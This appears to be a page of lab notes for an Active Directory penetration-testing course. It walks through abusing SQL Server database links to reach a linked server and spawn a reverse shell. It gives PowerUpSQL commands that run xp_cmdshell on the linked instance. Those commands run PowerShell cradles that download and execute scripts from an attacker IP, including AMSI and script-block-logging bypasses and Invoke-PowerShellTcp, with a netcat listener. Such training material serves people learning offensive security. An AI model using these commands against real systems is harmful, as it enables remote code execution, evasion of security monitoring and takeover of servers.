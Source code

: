 # 🔗 Reverse shell on a SQL server by abusing database links

Let's start with enumerating SQL servers in the domain and if studentx has privileges to connect to any of them. We can use PowerUpSQL module for that. Run the below command from a PowerShell session started using Invisi-Shell:

```
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
```

<figure><img src="../../.gitbook/assets/image (1167).png" alt=""><figcaption></figcaption></figure>

Now that we have those informations, we can use Get-SQLServerLinkCrawl for crawling the database links automatically:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (1180).png" alt=""><figcaption></figcaption></figure>

We can see We have sysadmin on eu-sql server!

<figure><img src="../../.gitbook/assets/image (1168).png" alt=""><figcaption></figcaption></figure>

If xp\_cmdshell is enabled (or RPC out is true - which is set to false in this case), it is possible to execute commands on eu-sql using linked databases. To avoid dealing with a large number of quotes and escapes, we can use the following command:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance. Remember to start a listener:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.13:9898/Invoke-PowerShellTcpEx.ps1'')"' -QueryTarget eu-sql
```



<figure><img src="../../.gitbook/assets/image (1180) (1).png" alt=""><figcaption></figcaption></figure>

```
 Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.13:5555/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.13:5555/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.13:5555/Invoke-PowerShellTcp.ps1)"''' -QueryTarget eu-sql13
```

{% hint style="danger" %}
Don't forget to set up a listener using wsl (here on port 5555), set up a listener with netcat (here on port 443) and inside  /Invoke-PowerShellTcp.ps1 put this line:
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1182).png" alt=""><figcaption></figcaption></figure>

```
Power -Reverse -IPAddress 172.16.100.13 -Port 443
```

